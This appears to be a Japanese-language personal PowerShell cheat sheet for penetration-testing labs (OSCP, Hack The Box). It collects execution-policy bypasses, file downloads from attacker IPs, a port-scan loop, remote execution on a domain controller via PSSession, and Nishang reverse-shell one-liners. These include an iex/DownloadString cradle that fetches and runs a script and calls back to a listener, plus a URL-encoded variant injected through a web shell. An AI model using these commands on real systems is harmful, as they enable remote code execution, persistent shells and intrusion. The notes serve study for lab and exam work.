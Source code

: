 # PowerShell

[toc]

### 実行権限

```powershell
powershell
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
Get-ExecutionPolicy -Scope CurrentUser
```



### ファイル転送

```powershell
powershell -NoProfile -ExecutionPolicy unrestricted　-c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```

```cmd
powershell -NoProfile -ExecutionPolicy unrestricted -Command (Invoke-WebRequest -Uri "http://192.168.119.127:5555/exploit.txt" -OutFile "exploit.txt")
```



### ダウンロードせずに実行する場合

ps1の末尾に実行したいコマンドを記載して実行する。nishangのリバースシェルなど

※AVに検知されるので画像

![image-20230105081915662](img/powershell/image-20230105081915662.png)



### リバースシェル※AVに検知されるためここに記載することができない

OSCP_cheetsheet(Excel)に記載している。

![image-20221226084237435](img/powershell/image-20221226084237435.png)



### バインドシェル※AVに検知されるためここに記載することができない

OSCP_cheetsheet(Excel)に記載している。

![image-20221226084638580](img/powershell/image-20221226084638580.png)

* netcatでバインドシェルに接続する

  ```
  nc -nv 10.11.0.22 443
  ```

  

### チェックサム

```powershell
Get-FileHash -Algorithm "SHA256" -Path "C:\Users\student\exploit.txt"

$hash1 = ""
$hash2 = ""
$hash1 -eq $hash2
```



### ポートスキャン

```
for($i=1; $i -le 140; $i++){
	Test-NetConnection 172.50.3.1 -Port $i
}
```



### リモートホスト操作

* ホスト名の確認

```cmd
nslookup
> set type=all
> _ldap._tcp.dc._msdcs.sandbox.local

_ldap._tcp.dc._msdcs.sandbox.local      SRV service location:
          priority       = 0
          weight         = 100
          port           = 389
          svr hostname   = SANDBOXDC.sandbox.local
```

* セッションを作成する

```powershell
$dcsesh = New-PSSession -Computer SANDBOXDC
```

* コマンド実行する

  ```powershell
  Invoke-Command -Session $dcsesh -ScriptBlock {ipconfig}
  ```

* ファイルをコピーする

  ```powershell
  Copy-Item "C:\Users\Public\whoami.exe" -Destination "C:\Users\Public\" -ToSession $dcsesh
  ```

* ファイルを実行する

  ```powershell
  Invoke-Command -Session $dcsesh -ScriptBlock {C:\Users\Public\whoami.exe}
  ```




https://www.hackingarticles.in/powershell-for-pentester-windows-reverse-shell/

### Nishang(Invoke-PowerShellTcp.ps1)

```bash
┌──(kali㉿kali)-[~/Documents/tools/nishang/Shells]
└─$ cp Invoke-PowerShellTcp.ps1 ~/Documents/HTB/Conceal 
```

##### ps1内で実行コマンドを書く場合

![image-20230501100456153](img/powershell/image-20230501100456153.png)

```
"iex(new-object net.webclient).downloadstring('http://192.168.119.133:8080/Invoke-PowerShellTcp.ps1')"
```

##### 実行も一緒にする場合

```
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.3 -Port 4444
```

* エンコードバージョン

```
http://10.129.33.253/upload/cmd.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.75:8000/Invoke-PowerShellTcp.ps1%27)
```

